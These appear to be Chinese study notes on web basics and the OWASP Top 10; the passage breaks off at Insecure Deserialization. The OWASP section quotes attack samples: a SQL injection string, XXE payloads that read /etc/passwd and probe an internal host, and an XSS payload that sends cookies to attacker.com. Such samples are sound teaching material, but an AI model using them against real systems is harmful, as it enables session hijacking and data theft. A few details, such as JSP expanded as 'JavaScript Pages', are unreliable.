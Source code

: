 # 1、HTTP

简单的说说HTTP

超文本传输协议(Hyper Text Transfer Protocol)，在TCP之上，默认端口号是80.有两个主要的版本HTTP1.0和HTTP1.1

用户打开于服务器的TCP连接，并向服务器发送HTTP请求；

服务器接收来自客户的TCP连接，处理用户发来的HTTP请求，并返回HTTP响应

![](img/HTTP工作.jpg)

## 报文

每个响应和请求都有三部分

* 请求or响应行
* 首部行(header line)
* 实体行(entity body)
  * 如果是client，会发送额外的数据，这种数据通常是使用CGI程序，用POST方法，对于GET方法，参数也会编码进URL

### HTTP请求

必须包含

* 方法method

* 通用资源标识符(universe resource identifier，**URI**)
* 协议版本
* 可选择的是别的信息来修改和补充请求

~~~http
GET /stuff/Funny/silly.html HTTP/1.0
User-agent: NCSA Mosaic 
Accept: text/plain
Accept: text/html
Accept: application/postscript
Accept: image/gif
~~~

第二行标识的是**发送请求的浏览器类型**。接下来的行表明了客户准备接收的数据的类型，是并列的关系(plain是以纯文本表示的，html则是用html语言书写的，postscript一种页面描述语言)

HTTP别的请求方法

* GET
* POST
* HEAD
* PUT
* DELETE

### HTTP响应

首先是状态行(标记之前的请求是否成功)，然后是meta information，最后是实际的请求的信息

~~~http
HTTP1.0 Status 200 Document follows
Server: NCSA/1.4
Date: Tue,4 Jul,1996 19:04 GMT
Content-type: text/html
Content-length: 5280 
Last-modified: Wed,1 Jan 1996 01:00:02 GMT

The contents of the document requested
~~~

第二行指示了HTTP服务器的软件

## URLs

语法是<scheme>://<authority><path>?<query>

authority是权限，用于限定资源的命名空间，格式是username@hostname:portnumber

path是资源所在的路径

query是应用的特定的信息

## HTTPS

HTTP不是特别安全，需要有加密通讯(encrypt the communication)，可以

* 防止窃听(eavesdropping)
* 防止中间人攻击
* 用于保护用户身份验证
* 绕过IDS/IPS（入侵检测系统和入侵防御系统）

HTTPS固有的信任基于预安装在浏览器软件中的主要证书颁发机构。但是无法保护免受Web应用程序的攻击 

# 2、Web Languages

Web语言有

* 用于定义网页内容的HTML 
* CSS指定网页的布局，specify the layout of web pages
* JavaScript以指定网页的行为 

## HTML

是超文本标记语言，**使用标签描述文档内容**。既包含HTML标签也包含文档内容，HTML文档也被称为网页

~~~html
<!DOCTYPE html>
< html>
< body>
< h1>My First Heading</h1>
< p>My first paragraph.</p>
< /body>
< /html>
~~~

细节

~~~
• The DOCTYPE declaration defines the document type 
• The text between <html> and </html> describes the web page 
• The text between <body> and </body> is the visible page content 
• The text between <h1> and </h1> is displayed as a heading 
• The text between <p> and </p> is displayed as a paragraph 
~~~

### headings

html的头是定义在<del>h开头</del>的标签里的。

**搜索引擎能够利用heading中的内容索引结构和网页的内容。**

可以在paragraph中增加一个br来表示换行。

### HTML注释

可以使用<!-->来表示HTML注释

### HTML链接

标签中的a表示一个超链接，最重要的是href属性，指示链接的目的地

### HTMLhead

~~~
The following tags can be added to the head section: <title>, 
<style>, <meta>, <link>, <script>, <noscript>, and <base>
~~~



### HTML DOM

DOM是一个W3C标准。是**Document Object Model文档对象模型**。

W3C DOM标准被分为独立的3个部分

* Core DOM
* XML DOM
* HTML DOM

HTML DOM是HTML的标准对象模型和编程接口。 它定义： 

* HTML元素作为对象 
* 所有HTML元素的属性 
* 访问所有HTML元素的方法 
* 所有HTML元素的事件 

## CSS

是级联样式表，定义了HTML的展示方式

可以以三种方式展示

* 内联(inline)-在HTML元素中使用style属性 
* 内部-使用<head>部分中的<style>元素 
* 外部-使用外部CSS文件 

CSS主要是由selector和declaration组成。CSS声明始终以分号结尾，并且声明组用大括号括起来。

~~~css
h1 {color:blue; font-size:12px;}
~~~

To make the CSS more readable, you can put one declaration on each  line, 

~~~css
/*这是一个针对段落的CSS*/
p
{
color: red;
text-align: center;
}
~~~

引入css的html标签

~~~html
<head>
<link rel="stylesheet" type="text/css" 
href="mystyle.css">
</head>
~~~

内部的样式表

~~~html
<head>
<style>
hr {color: sienna;}
p {margin-left:20px;}
body {background-image: 
url("images/background.gif");}
</style>
</head>
~~~

内联样式表

不推荐

有优先级

* Browser default 
* External style sheet 
* Internal style sheet (in the head section) 
* Inline style (inside an HTML element)

越往后优先级越高

## JavaScript

用于增加HTML页面的交互性，通常直接插入在HTML页面中(<script>)可以访问HTML页面和增加元素(DOM树)

JavaScript是一种脚本语言

* 动态、弱类型的语言
* 解释型语言
* 在虚拟机上运行的

~~~
弱类型语言
JavaScript和python

强类型语言
使用变量之前需要定义它的类型。
c、Java
~~~



~~~
解释型语言
JavaScript、python

编译型语言
c/c++

Java是半编译半解释的语言
~~~

### 特征

* 语法与Java很像(控制语句，异常处理)

* 没有类，但是是可以面向对象的

* 没有输入和输出(必须由嵌入环境提供)
* 变量的范围是全局的或是局部的
* 可以在运行时生成代码并即时执行 
* **可以在运行中修改自己**，热更新(不停机更新)



### 使用

可以放到<head>和<body>，常见的是可以放到外置的js文件。实际上是在DOM树上搜索id进行匹配。

~~~html
<!DOCTYPE html>
<html>
    <head>
        <script>
        function myFunction()
        {
            document.getElementById("demo").innerHTML="My First JavaScript Function";
        }
        </script>
    </head>
    
    <body>
        <h1>My Web Page</h1>
        <p id="demo">A Paragraph</p>
        <button type="button" onclick="myFunction()">Try it</button>
    </body>  
</html>    
~~~

getElementById 是一个method，而innerHTML 是一个attribute。

外部的JavaScript

~~~html
<!DOCTYPE html>
<html>
<body>
<script src="myScript.js"></script>
</body>
</html>
~~~

网页被加载的时候，浏览器就会创建一个DOM(文件目标模型)树

### 功能

* JavaScript可以更改页面中的所有HTML属性 
* JavaScript可以更改页面中的所有CSS样式 
* JavaScript可以删除现有的HTML元素和属性 
* JavaScript可以添加新的HTML元素和属性 
* JavaScript可以对页面中所有现有的HTML事件做出反应 
* JavaScript可以在页面中创建新的HTML事件 



### DOM Programming Interface

the getElementById() method

the inner HTML property

常见的HTML方法

| method                             | description                               |
| ---------------------------------- | ----------------------------------------- |
| document.getElementById ()         | Finding an element by element id          |
| document.getElementsBy TagName()   | Finding elements by tag name              |
| document.getElementsBy ClassName() | Finding elements by class name            |
| document.forms[]                   | Finding elements by HTML element  objects |

HTML DOM navigation

DOM Nodes

根据W3C HTML DOM标准，HTML文档中的所有内容都是一个节点： 

* 整个文档是一个文档节点 
* 每个HTML元素都是一个元素节点 
* HTML元素内的文本是文本节点 
* 每个HTML属性都是一个属性节点 
* 所有评论均为评论节点 

~~~
<html> is the parent of <head> and <body>
• <head> is the first child of <html>
• <body> is the last child of <html>

<head> has one child: <title>
• <title> has one child (a text node): "DOM Tutorial"
• <body> has two children: <h1> and <p>
• <h1> has one child: "DOM Lesson one"
• <p> has one child: "Hello world!"
• <h1> and <p> are siblings
~~~

节点名称的属性

* nodeName属性指定节点的名称。 
* nodeName为只读
* 元素节点的nodeName与标签名称相同 
* 属性节点的nodeName是属性名称 
* 文本节点的nodeName始终为#text 
* 文档节点的nodeName始终为#document 

# 3.Web Framework

**Web应用程序框架（WAF）是一种软件框架**，旨在支持动态网站，Web应用程序，Web服务和Web资源的开发。 该框架旨在减轻与Web开发中执行的常见活动相关的开销。 

例如，许多框架提供用于数据库访问，模板框架和会话管理的库，并且它们通常促进代码重用。

## MVC

**Model-view-controller(MVC)模式，三层组织形式。**

模型视图控制器（MVC）是用于实现用户界面的软件模式。 它将给定的软件应用程序划分为三个相互联系的部分，以便将信息的内部表示形式与信息向用户呈现或从用户接受的方式分开 

* 模型的中心组件由应用程序数据，业务规则，逻辑和功能组成。 
* 视图可以是信息的任何输出表示， 例如图表或图表。 可以使用同一信息的多种视图，例如用于管理的条形图和用于会计的表格视图。 
* 第三部分，控制器，接受输入并将其转换为模型或视图的命令。 



## 常见的三层架构

* 表现层
  * 这是应用程序的最高级别。 表示层显示与诸如浏览商品，购买和购物车内容之类的服务有关的信息。
  * 它**与其他层进行通信，从而将结果发布到浏览器/客户端层以及网络中的所有其他层**。 （简单来说，它是用户可以直接访问的一层，例如网页或操作系统GUI）
* 应用层
  * 也称为业务逻辑，逻辑层或中间层 
  * 逻辑层从表示层中拔出，作为自己的层，它通过**执行详细的处理**来控制应用程序的功能。
* 数据层
  * 数据层包括数据持久性机制（数据库服务器，文件共享等）和封装持久性机制并公开数据的数据访问层。 
  * 数据访问层应向应用程序层提供一个API，**该API公开用于管理存储的数据的方法**，而不会暴露或创建对数据存储机制的依赖关系。 
  * 避免依赖于存储机制，可以在不影响甚至不知道更改的情况下更新或更改它们，而不会影响应用程序层客户端。 

![](img/三层架构.jpg)



## SSH

常用的解释有安全外壳协议(Secure Shell)、strut、spring和hibernate(JavaEE开发的三种模式)以及一种非常流行的开源的Web应用框架。

**SSH框架分为四个层：表示层，逻辑层，数据持久性层和域模块层**，以帮助开发人员在短期内构建清晰的结构，可以很好地重用和维护Web应用程序的程序。 

* struts
  * Struts基础结构系统作为一个整体，负责MVC分离，控制业务逻辑；
* spring
  * 还在应用中
* hibernate

# 4.Web Server Language

## 服务器端脚本

Server Side script

许多动态构建的网页大多是静态的。 CGI，ISAPI和Servlet使您可以通过程序生成整个页面，即使大多数页面始终相同 

服务器端脚本环境允许您在HTML文档中包括服务器端脚本（以及客户端脚本）。 

服务器端脚本在发送给客户端之前由网络服务器解释并转换为HTML，因此客户端的浏览器甚至看不到服务器端脚本 。

常用的脚本语言：ASP，JSP,PHP, Perl，Python

### jsp

JavaScript Pages是一种使用Java servlet容器将动态内容插入HTML或XML页面的技术。

换句话说，您可以向每个客户端及其每次接收到的HTML页面发送不同的HTML页面，而不是将HTML页面发送到始终彼此相同的Web客户端（例如，使用数据库数据）。 

![](img/data flow.jpg)

* 语法

jsp使用不同的分隔符(delimiter)来执行脚本功能

~~~jsp
<%……%> 脚本段(scriptlet)是用户请求界面时运行的Java代码的一部分。

<%=……%>表达式，将要计算的表达式放在java servlet类中。 表达式不应以半冒号(semicolon)终止

<%@……%>评论，注释HTML注释是<!……>，需要加以区分
~~~



~~~html
<p>Counting to three;</p>
<% for (int i=1;i<4;i++){%>
	<p>This number is <%=i%>.</p>
<% }%>
<p>
    OK.
</p>
~~~

* 指令(directives)

JSP指令添加在JSP页面的顶部。 这些指令控制JSP编译器如何生成servlet。

只有导入的指令才可以多次运行



* 行为

jsp：param

可以在jsp：include，jsp：forward或jsp：params块内使用。 指定将添加到请求的当前参数中的参数。

jsp: forward

处理另一个jsp的请求和响应。

~~~html
<jsp:forward page="subpage.jsp" >
<jsp:param name="forwardedFrom" value="this.jsp" />
</jsp:forward>
~~~

jsp: plugins

### PHP

PHP是“ **PHP超文本预处理器**”的缩写。 PHP是一种广泛使用的开源脚本语言。PHP脚本在服务器上执行。PHP不花钱，可以免费下载和使用

特点有

* **跨平台支持(cross platform support)**（PWS，IIS和Apache Web服务器） 
* 开源，由Rasmus Lerdorf在1994年开发。 
* 专为网络设计的语言。 
* 通常在过程中运行(typically run in process)。 
* 出色的字符串处理能力（如Perl） 
* 与MySQL紧密集成（快速） 
* Zend优化编译器（市售）

缺点是

* Quick and dirty (“stubborn function-over-form approach”). 
* Poor error handling 
* “Tedious” objected-oriented programming support. 
* Normally interpreted

# 5.Introduction of SQL

SQL是结构化查询语言，能够运行访问和操作数据库。

**RDBMS是关系型数据库管理系统**。**SQL不区分大小写**。

开源的LAMP软件

Linux

apache

MySQL

PHP

# 6.OWASP

OWASP是开放式web应用项目。webgoat是其中的一个。Top10是OWASP列举出的10个容易受到攻击or存在安全风险的情景，按风险进行分类、排序的。

Top10对风险的表达方式，Threat agent(攻击者) through attack vector(攻击手段) exploit security weakness and conduct security controls, create technial impacts and business impacts(最重要)。

## 1.Injection

注入有SQL、NoSQL等的注入，是当不受信任的数据作为命令和查询中的一部分发送到解释器时可能会发生。攻击者的恶意数据可以诱使解释器执行非预期的未经适当授权的命令或访问数据。

### 发生情景

一个应用在SQL语句中使用不被信任的数据，增加了额外的SQL语句。

~~~java
//情景1
String query = "SELECT * FROM accounts WHERE custID=‘ " + request.getParameter("id") + ” ‘ "
    
//情景2
Query HQLQuery = session.createQuery("FROM accounts WHERE custID=‘ " + request.getParameter("id") + ” ‘ ");    
//可以增加' or '1'='1就会产生一个永真的语句    
~~~

web应用容易被攻击的情况

* 未验证(validate)、过滤、清理(sanitize)用户的数据
* 没有上下文感知转义(context-aware escaping)的动态查询或非参数化调用直接在解释器中使用 
* 在对象关系映射 (ORM) 搜索参数中使用恶意数据来提取额外的敏感记录。 
* 恶意数据被直接使用或连接，使得 SQL 或命令在动态查询、命令或存储过程中同时包含结构和恶意数据

只要是解释型的语言都有可能发生Injection。常见的有SQL，NoSQL，关系对象映射(ORM)，以及LDAP(轻量目录访问协议)。

### 如何防止

* 最好的方法是使用安全的API，因为它避免使用了解释器和参数化的接口以及迁移到使用对象关系映射
  * 注意：即使在参数化后，如果 PL/SQL 或 T-SQL 连接查询和数据，或者使用 EXECUTE IMMEDIATE 或 exec() 执行恶意数据，存储过程仍然会引入 SQL 注入。 
* 使用正向的**白名单**的服务端的输入验证。因为许多应用程序(例如移动端的文本输入和API)需要使用特殊的字符串
* 对于任何残留(residual)的动态查询，使用该解释器的特定转义语法转义(escape)特殊字符。 



## 2.Broken Authentication

与身份验证和会话管理相关的应用程序功能经常被错误地实现，允许攻击者破坏密码、密钥或会话令牌，或利用其他实现缺陷来暂时或永久地假设其他用户的身份

### 发生情景

* **Credential stuffing(凭证填充)**,使用已知密码列表是一种常见的攻击手段。如果应用程序未实施自动威胁或凭证填充保护，则该应用程序可用作密码预言机以确定凭证是否有效。白话，试密码
* 许多损坏的身份验证是由于密码的长期连续使用。
  * http通过cookie和session得知当前用户是否登录。 会话是服务器的概念，cookie是浏览器的概念。当开启一个会话时，会在服务器端创建一个session，同一个用户访问一个服务，就会将用户纳入session。因为用户访问某一网站时，会得到cookie，当用户访问服务器时，会把网站设置的cookie的值发送个服务器，服务器借此判断用户的身份。
* 应用的session超时设置的不合理。当用户使用公共的电脑时，这种情况很常见。



容易受攻击的应用

* 允许自动攻击，例如**撞库(credential stuffing)**。当攻击者有一系列有效的用户名和密码时。
* 允许暴力或其他自动攻击
* 允许默认的弱密码
* 使用不有效的身份恢复和忘记密码流程，例如基于知识的答案(knowledge-based answer)
* 使用纯文本(plain text)、加密(encrypted)或弱散列(weakly hashed)密码
* 缺少多因素验证
* 在URL中暴露sessionID
* 不合适的session无效化
* 成功登录后不轮换会话ID 

### 如何预防

* 实现多要素的验证来预防自动化的凭证填充(crential stuffing)，暴力破解(brute force)，以及窃取重用攻击。
* 不用任何默认的身份装载和部署，尤其是对于管理员。
* 检测弱密码，并测试和检查10000个弱密码。
* 将密码长度、复杂性和轮换策略与指南保持一致
* 通过对所有结果使用相同的消息，确保注册、凭据恢复和 API 路径能够抵御帐户枚举攻击 
* 限制并逐渐延迟登录失败的尝试。列出所有的错误，并且在凭证填充、暴力破解、以及别的攻击发生时警告管理员
* 使用服务端的，安全的，内置的session管理器来产生一个新的高加密的sessionID。sessionID不应该存在于URL中，需要安全的存储，并且在登出、空置(idle)、超时后无效化。



## 3. Sensitive Data Explosure 

敏感信息泄露

脱敏(不一定是加密)，中间4位加密，修改为****。需要同时在日志中进行修改。对于敏感信息，不仅需要考虑存它的地方，还要考虑整个使用的地方，例如备份也要考虑是否使用的是明文。

### scenarios

* 一个应用在使用加密算法的数据库中自动地加密信用卡号。然而，这个卡号在检索(retrieve)时，会自动地被解密。
* 一个网站并没有对所有的页面使用TLS(传输层安全性协议)或是支持弱的加密。攻击者监听到网络流，并且将HTTPS降级为HTTP，拦截请求，并且获得了用户的session cookie。攻击者重放这个cookie，并且劫持用户的session，就能访问和修改用户的信息了。
* 密码数据库使用未加盐或简单的哈希来存储每个人的密码。 文件上传缺陷允许攻击者检索密码数据库。 所有未加盐的哈希都可以用彩虹表暴露出来 预先计算的哈希值。 由简单或快速散列函数生成的散列可能会被 GPU 破解，即使它们被加盐。 

首先是确定哪些数据需要保护。需要额外的保护的有密码，信用卡号，健康记录，个人信息以及商业记录。需要考虑几个问题

* 是否有任何数据以**明文形式(clear text)**传输？ 这涉及 HTTP、SMTP 和 FTP 等协议。 外部互联网流量(external internet traffic)尤其危险。 验证所有内部流量，例如在负载平衡器、Web服务器或后端系统之间。 
* 敏感数据是否以明文的形式存储，包括**备份(backups)**
* 默认情况下或在较旧的代码中是否使用任何旧的或弱的加密算法(crypotographic)？
* 是否正在使用默认加密密钥、生成或重复使用弱加密密钥，或者是否缺少适当的密钥管理或轮换(rotation)？
* 是否未强制执行加密，例如 是否缺少任何用户代理（浏览器）安全指令或标头？ 
* 用户代理是否不验证(verify)接收到的服务器证书有效？

### 如何预防

* * 对应用程序处理、存储或传输的数据进行分类。
  * 根据隐私策略辨别那些数据是敏感的，需要完善的
  * 对每一个辨别的结果进行控制
* 不必要的情况下不存储敏感信息。尽可能地丢弃或者使用PCI(外部控制器接口)和DSS(数据安全系统)的标记化甚至截断，未保留的数据不能被窃取。
* 确保解密所有的静态的(at rest)敏感信息
* 确保更新以及强的标准的算法和协议；使用合适的密码管理
* 使用安全协议（例如具有完美前向保密 (PFS) 密码的 TLS、服务器的密码优先级和安全参数）加密所有传输中的数据。 使用 HTTP 严格传输安全 (HSTS) 等指令强制加密。
* **对包含敏感数据的响应禁用缓存**
* 用强自适应性的加盐散列函数(salted hash function)存储密码
* 独立地验证配置和设置的有效性



## 4.XXE

外部实体注入(XML External Entities)

**html内嵌信息**，就可能发生外部实体的问题(XML External Entities, XXE)

### 攻击场景

多数的公共的XXE事件能够被发现，包括攻击嵌入式设备。外部实体攻击出现在许多意想不到的地方，包括深度嵌套的依赖。最快速的方式是上传恶意的XML文件。

* 攻击者尝试从服务器中提取数据

* ~~~xml
	  <?xml version="1.0" encoding="ISO-8859-1"?>
    	<!DOCTYPE foo [
    	<!ELEMENT foo ANY >
    	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    	<foo>&xxe;</foo>
  ~~~
  
* 攻击者检测服务器的私网

* ~~~xml
    <!ENTITY xxe SYSTEM "http://192.168.1.1/private">]>
    ~~~

* 攻击者通过包含一个潜在的无穷的文件，尝试一个拒绝服务攻击

* ~~~xml
    <!ENTITY xxe SYSTEM"file:///dev/random">]>
    <!--这个是Linux中的一个命令，将持续执行下去，因此可以造成DoS攻击-->
    ~~~

易受攻击的情况

* 应用直接接收XML或者XML上传，尤其是从未受信赖的源中；或者往XML文件中插入未受信赖的数据，最终被XML处理器解析到

* 任何在应用中的XML文件处理器或者基于**SOAP(简单对象访问协议)**的web服务都启用了**文档类型定义(DTD,Document Type Definition)**

* ~~~
  SOAP(简单对象访问协议)是交换数据的一种常见的接口，其中返回的数据都是XML格式的。
  攻击者可以充当webservice的客户调用SOAP，可以发送XML文件。如果直接处理xml文件，没有对webservice进行过滤，webservice就有可能发生XXE的安全隐患。
  ~~~

* 如果您的应用程序在联合安全或单点登录 (SSO，single sign on) 目的内使用 SAML(安全声明标记语言) 进行身份处理。 SAML 使用 XML 进行身份断言，并且可能容易受到攻击 

* 如果应用程序使用 1.2 版之前的 SOAP，并且XML实体被传输到SOAP框架中就容易受到XXE的攻击

* 容易被外部实体攻击，意味着应用容易受到拒绝服务攻击的影响

### 如何预防

* **开发者训练(developer training)是至关重要的来辨别和缓解XXE**。
* 尽可能少的使用复杂的数据形式，例如json；并且**要避免序列化敏感数据**。
* 修补(patch)或升级应用程序或底层操作系统上使用的所有 XML 处理器和库.使用依赖项检测器，更新SOAP到SOAP1.2
* 根据 OWASP 备忘单(cheatsheet)“XXE 预防”，**禁用应用程序中所有 XML 解析器中的 XML 外部实体和 DTD 处理**。
* 实现正向的(白名单化的)服务器端的输入验证(verify)，过滤(filter)和清理(sanitization)来预防敌对的带有XML文档、头部和结点的数据。
* 验证 XML 或 XSL 文件上传功能是否使用 XSD 验证或类似方法验证传入的 XML 
* SAST 工具可以帮助检测源代码中的 XXE，尽管在具有许多集成的大型复杂应用程序中，手动代码审查是最佳选择。



## 5.Broken Access Control

Broken Access Control（破碎的访问控制）是关于访问控制，权限控制失效，**攻击者可以访问别人的账户**，查看敏感文件，修改别的用户的数据。

Authentication解决我是谁的问题，是关于身份的

### 发生场景

* 用户在SQL中使用未经证实的数据访问账户信息

* ~~~java
  pstmt.setString(1, request.getParameter("acct"));
  ResultSet results = pstmt.executeQuery( );
  
  //攻击者只需修改浏览器中的“acct”参数即可发送他们想要的任何帐号。 如果没有正确验证，攻击者可以访问任何用户的帐户。
  ~~~

* 例如在浏览器的URL中输入http://example.com/app/accountinfo?acct=notmyacct

* 攻击者只需强制浏览目标 URL(target URL)。 访问管理页面需要管理员权限 。例如访问http://example.com/app/getappinfo和http://example.com/app/admin_getappinfo。如果一个未经验证的用户可以访问任意界面，就是存在缺陷的。

访问控制强制执行(enforce)策略不允许用户执行权限之外的操作。故障(failure)通常会导致未经授权的信息泄露(disclosure)，修改或破坏所有的数据。或是在用户范围之外执行业务功能。通常的访问控制缺陷包括

* **通过修改URL绕过访问控制检查**，内部应用层或者HTML界面，或者是简单的使用传统的API攻击工具。
* 允许主键被修改为另一个用户的记录上，允许查看或者编辑别人的账户。
* 权限的提升。表现为一个用户不需要登录，或者一个用户却能以管理员的身份操作
* 元数据操作，例如**重放(replay)或篡改(tamper) JSON Web 令牌 (JWT,json web token) **访问控制令牌或 cookie 或被操纵以提升权限的隐藏字段，或滥用 JWT 失效 
* **CORS（跨源资源共享，cross origin resource sharing）**错误配置允许未经授权的 API 访问。 

### 如何防止

访问控制**只有在受信任的服务器端(server-side)代码或无服务器 API 中强制执行时才有效**，攻击者无法修改访问控制检查或元数据 

* **除公共资源外，默认拒绝(deny by default)，**
* 实施一次访问控制机制并在整个应用程序中重复使用它们，包括最大限度地减少 CORS 的使用
* 模型访问控制应该**强制记录所有权**，而不是接受用户可以创建、读取、更新或删除任何记录。
* 域模型应强制执行独特的应用程序业务限制要求 
* **禁用(disable)** Web 服务器目录列表并确保文件元数据（例如 .git）和备份文件不在 Web 根目录中。 
* 记录访问控制失败，在适当时提醒管理员（例如重复失败）
* 速率限制 API 和控制器访问，以最大限度地减少自动攻击工具的危害
* JWT (json web token) tokens should be invalidated on the server after logout.



* 普通用户和管理员用户之间不能通过链接连接的方式进行访问。**权限管理一定要在服务器上做**。URL是浏览器发起的，关键操作的检查要在服务器完成。在客户端做的事情需要在服务端做校验。

* 游戏分为客户端和服务端，客户端处理当前用户的行为，并把信息传递到服务端去同步。服务端需要对发生在客户端的行为进行检验

~~~
遇到计算机方面的事，多去想想怎么实现的，对于培养计算机的思维有很大的帮助。
~~~

* 比如相片的ID是编码过后的字符串，不太可能是101、102这些连续的整数。

## 6.Security Misconfiguration

一般是不安全的默认配置、不完全的**临时配置(ad hoc configurations)**、开放的云存储、错误的HTTP头部的配置、冗长的包含敏感信息的错误信息导致的。所有的操作系统、框架、库和应用都需要安全地配置，也必须及时地更新到最新的版本。

### 发生情景

* 应用程序服务器**附带了未从生产服务器中删除(remove)的示例应用程序(sample application)**。 这些示例应用程序具有攻击者用来破坏服务器的已知安全漏洞。 如果这些应用程序之一是管理控制台，并且默认帐户未更改，则攻击者使用默认密码登录并接管。
*  服务器上未禁用**目录列表(directory listing)**。 攻击者发现他们可以简单地列出目录。 攻击者找到并下载编译后的 Java 类，对其进行**反编译(decompile)和逆向工程(reverse engineer)**以查看代码。 然后攻击者发现应用程序中存在严重的访问控制缺陷。白话，一般不允许访问目录
* 应用程序的配置允许详细的默认信息例如堆栈路径返回给用户，这潜在地暴露了敏感信息或者潜在的缺陷(例如已知易受攻击的组件的版本)。解释，服务器的任何错误信息不要直接暴露给客户端，最好包装一下，比如说5开头的HttpResponse信息，应该出现在服务器的日志中，而不是直接暴露在浏览器中。
* 云服务提供者有默认的共享许可给CSP(加密服务提供程序)使用者，使得它们能够打开云网。这使得存储在云网络的敏感数据会被用户访问。

容易攻击的特点

* 在应用程序堆栈的任何部分缺少适当的安全强化(security hardening)，或对云服务的权限配置不当。 
* 启用(enabled)或安装不必要的功能(feature)(不必要的端口，服务，页面，账户，和特权)
* 默认的账户和密码仍被启用，并且未作修改
* 错误处理暴露给用户的堆栈路径和信息过多的错误信息
* 更新系统，最新的安全功能未启用，或是没有合理地配置
* 应用服务器中安全设置(Struts, Spring, ASP.NET)，库，数据库，等没有被设置为安全值
* 服务器不发送安全标头或指令，或者它们未设置为安全值。 
* 软件过时，易受攻击



### 如何预防

* 一个可重复的强化过程，可以快速轻松地部署另一个正确锁定的环境。 **开发、QA(质量保证) 和生产环境都应配置相同，每个环境中使用不同的凭据。** 这个过程应该是自动化的，以最大限度地减少设置新安全环境所需的工作。
* 一个没有任何不必要功能、组件、文件和样例的最小化平台。**移除或不安装未被使用的功能和框架**
* 作为**补丁(patch)管理过程**的一部分，查看和更新适用于所有安全标记、更新以及补丁的配置。尤其是，查看云存储许可权限(例如，S3bucket许可)。
* 分段应用程序(segmented application)架构通过分段、容器化、以及云安全组在组件和租户(tenat)之间提供高效的，安全的分离

## 7.XSS

应攻击者的请求(钓鱼)把自己的cookie发送给攻击者。来自应用程序的输入数据作为代码被解释器执行。常见的解释器有SQL，命令行，LDAP，XPath，XML， JSON

### 发生场景

* 应用程序使用者使用未受信赖的数据构建在HTML片段(snippet)中

* ~~~java
  (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + ”’>”;
  ~~~

  修改CC参数为

  ~~~
  '><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi? 
  foo='+document.cookie</script>'
  ~~~

  就会使受害者的session ID发送到攻击者的网站上，使得攻击者能够劫持用户的session

* 基于XSS的DOM

  ~~~JavaScript
  <script>
  var x = '<%= taintedVar %>’;
  var d = document.createElement('div’);
  d.innerHTML = x;
  document.body.appendChild(d);
  </script>
  ~~~

  具体内容可以看OWASP的XSS篇。

### XSS的种类

主要分为三类，通常是针对用户的浏览器

* Reflected XSS(反射型XSS)
  * 包括未验证的以及未转义的用户输入的应用或者API作为HTML的输出。成功的攻击会使得攻击者在受害者的浏览器中执行任意的HTML和JavaScript。典型的情况是用户需要与某些恶意的链接进行交互，这些恶意的链接会将用户指引到指定的攻击者控制的页面，比如恶意水坑网站，广告或类似内容。
* Stored XSS(存储型XSS)
  * 应用或者API存储**未经处理(unsanitized)**的用户输入。这个用户输入在之后的一段时间内会被另外的用户访问。存储型XSS往往被认为是高风险的攻击
* DOM XSS(文档对象模型)
  * JavaScript框架，单页的网页应用，以及API动态地包括了攻击者控制的数据很容易受到DOM XSS的攻击。理想情况下，应用不会发送攻击者可控制的数据到不安全的JavaScriptAPI中。

典型的XSS包含了session偷窃，**账户接管(account takeover)**，MFA绕过，DOM结点替代或**篡改(defacement)**，攻击者会对用户的浏览器(例如恶意的软件下载，密钥记录)，以及别的客户端的攻击

### 如何预防

预防XSS需要将未受信赖的数据从活跃的浏览器中分离出来。这一点可以通过以下手段实现

* 使用能够在设计上自动转义XSS的框架，例如最新的Ruby，React JS。学习每个框架的XSS的保护的**局限性(limitations)**，适当地处理没有覆盖的例子。
* 基于HTML输出上的**上下文(context)**转义未受信赖的HTTP请求数据，(body, attribute, JavaScript, css,或者是URL)。OWASP 备忘单“XSS 预防”详细介绍了所需的数据转义技术。 
* 在客户端修改浏览器文档时应用上下文敏感编码会对抗 DOM XSS。 如果无法避免这种情况，可以将类似的上下文敏感转义技术应用于浏览器 API，如 OWASP 备忘单“基于 DOM 的 XSS 预防”中所述。
* 启用**内容安全策略 (CSP，Content Security Policy)** 是一种针对 XSS 的纵深防御**缓解(migitate)**控制。 如果不存在允许通过本地文件包含放置恶意代码的其他漏洞（例如，路径遍历覆盖或来自允许的内容交付网络的易受攻击的库），则它是有效的。 

## 8.Insecure Deserialization

不安全的序列化会导致远程代码执行。即使并没有导致远程代码执行，也可以被用于执行攻击，包括重放攻击，注入攻击以及**提权(escalation)攻击**

### 发生场景

